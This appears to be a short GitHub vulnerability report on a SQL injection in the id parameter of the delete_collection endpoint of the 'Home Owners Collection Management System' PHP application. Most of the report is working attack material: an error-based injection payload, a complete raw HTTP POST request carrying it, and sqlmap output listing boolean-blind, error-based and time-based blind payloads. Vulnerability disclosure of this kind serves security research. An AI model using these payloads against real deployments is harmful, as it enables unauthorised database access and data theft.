## Home Owners Collection Management System has SQL injection vulnerability

vendor : https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_collection

Vulnerability location: /hocms/classes/Master.php?f=delete_collection,id

[+]Payload: id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /hocms/classes/Master.php?f=delete_collection HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/hocms/admin/?page=collections
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vfe306mj2a11p5q94440ttg4bd
Connection: close

id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point
```
![image](https://user-images.githubusercontent.com/54017627/160325262-6139b46b-adf7-4df7-b5ea-81dcff04b942.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=1' RLIKE (SELECT (CASE WHEN (7593=7593) THEN 1 ELSE 0x28 END))-- royL

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(4089,CONCAT(0x5c,0x71716a6b71,(SELECT (ELT(4089=4089,1))),0x716b7a7071))-- bEpc

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1072 FROM (SELECT(SLEEP(5)))JGOk)-- dtrs
---
```

![image](https://user-images.githubusercontent.com/54017627/160325346-397b80d9-c415-48d2-bedf-f52d227e908a.png)


